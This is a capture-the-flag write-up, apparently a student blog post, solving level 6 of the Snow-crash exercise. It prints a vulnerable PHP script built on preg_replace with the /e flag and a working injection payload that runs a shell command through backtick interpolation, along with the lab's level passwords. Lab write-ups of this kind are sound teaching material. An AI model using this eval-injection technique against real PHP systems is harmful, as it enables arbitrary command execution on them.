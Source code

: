 ```yaml
---
title:  "[Snow-crash] Level06"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-14
last_modified_at: 2024-02-14
categories: 
   - ecole42
---
```


#### 1. The password of `Level06` is the token that got from `Level05`.

```
viuaaale9huek52boumoomioc
```
#### 2. So, try login to Level06 with the password we got from Level05 and try to put the command `ls`. We can see the file `Level06`. 
```bash
level05@SnowCrash:/var/mail$ su level06
Password:
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We can see the level06.php file, so I tried to execute it first. Nothing came out but we verified that this php file worked correctly.

```bash
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
#### 3. We can convert this to readable at the site below.

[Online PHP beautifier](https://beautifytools.com/php-beautifier.php)

```bash
#!/usr/bin/php
<?php
function y($m) # Define function y
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)  # Define function x
{
    $a = file_get_contents($y); 
    #Read the contents of file $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    # Replace [x ...] with the result of calling function y on the captured group (\2)
    $a = preg_replace("/\[/", "(", $a); # Replace [ with (
    $a = preg_replace("/\]/", ")", $a); # Replace ] with )
    return $a;
}
$r = x($argv[1], $argv[2]); #all function x with command line arguments
print $r; #Print the result
?>
```

If we break down in to the php code,

* Function y($m):

    * Replaces dots (.) with spaces (' x ') and replaces '@' with the string 'y' in the string $m, then returns the result.

* Function x($y, $z): takes two inputs

    * Reads the contents of the file specified by $y and stores it in $a.
    
    * /(\[x (.*)\])/e : The given regular expression is a regular expression used in PHP. It matches a string starting with "x" inside square brackets. The part inside the square brackets is a capture group represented by the pattern (.\*), which matches any string.

    * /e: This flag evaluates the matched pattern and returns it. It is a special flag used only in PHP, allowing the matched pattern to be evaluated as PHP code.

    * Replaces remaining [ and ] characters with ( and ), respectively.

    * Returns the result.

* Variable $r:

    * Stores the result of the x() function call.

* Output:

    * Prints the result.

In summary, this regular expression finds the pattern [x ...] in a string and evaluates it as PHP code, enabling the string to be transformed into dynamically executable PHP code.

<details>
<summary> Example Regex (Regular expression) </summary>
<br><br>
For example, consider the following string:
<br><br>

<pre>
<code>
[x echo "Hello, world!"]
</code>
</pre>
Suppose you want to find the [x ...] part in this string and execute PHP code inside it.
<br><br>
In this case, you can use the regular expression /(\[x (.*)\])/e, and with this regular expression, you can use the preg_replace() function in PHP as follows:

<pre>
<code>
$string = "[x echo \"Hello, world!\"]";
$result = preg_replace('/(\[x (.*)\])/e', "$2", $string);
echo $result; // Output: Hello, world!
</code>
</pre>
<br>
In the above code, $2 represents the second capture group, which corresponds to the PHP code inside the [x ...] part. <br><br>Therefore, the preg_replace() function finds the matching pattern [x ...], evaluates and executes the PHP code inside it (in this case, echo "Hello, world!"), and returns the result.<br><br> 
In this case, it returns the string "Hello, world!"."


</details>

#### 4. We want to modify the input string `[x (anything here)]` so that the second capture group in the regular expression will be replaced by `${'getflag'}`. This way, when the function y() is called, it will execute the command getflag.

#### 5. So, our modified input string should be [x ${'getflag'}]. This will allow us to use variable interpolation to execute the getflag command within the y() function.

```bash
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

#### 6. And we can get the password as below.

```bash
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable:
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
 ```

 ####  7. We got a token for level07

 ```bash
 Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 ```